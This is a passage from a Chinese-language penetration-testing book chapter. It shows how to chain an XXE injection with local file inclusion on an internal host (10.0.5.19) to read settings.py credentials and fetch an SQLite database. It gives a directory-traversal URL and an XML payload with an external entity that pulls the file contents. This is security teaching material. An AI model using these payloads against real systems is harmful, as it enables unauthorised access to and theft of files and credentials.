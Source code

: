![信息泄露](img/B09238_10_12.jpg)

图 10.12：使用 XXE 在内部主机上利用 LFI

`settings.py` 文件包含一些有趣的信息，包括数据库凭证和 `sqlite3` 文件路径。记下这些信息以供将来使用是没有坏处的。一个值得注意的文件是 SQLite 3 数据库本身，它位于 `10.0.5.19` 内部主机的 `c:\db\badguys.sqlite3` 路径下。

我们可以使用相同的 LFI 攻击来抓取其内容。

仅仅通过更改 `p` 路径到数据库文件存在一个问题：

```
http://10.0.5.19/user-pic?p=**../../../../../../db/badguys.sqlite3**

```

在正常的 LFI 情况下，这种方法完全可行。我们遍历足够的目录以达到驱动器的根目录，切换到 `db` 目录，并抓取 `badguys.sqlite3` 文件。

你会注意到，在我们的有效载荷中，SQLite 3 数据库的内容将被抓取并插入到 `<xxe>` 标签中，解析器在处理 XML 数据之前：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE xxe [
  <!ELEMENT xxe ANY >
  <!ENTITY exfil SYSTEM "http://10.0.5.19/user-pic?p=../../../../../../db/badguys.sqlite3">
]>
**<xxe>&exfil;</xxe>**

```
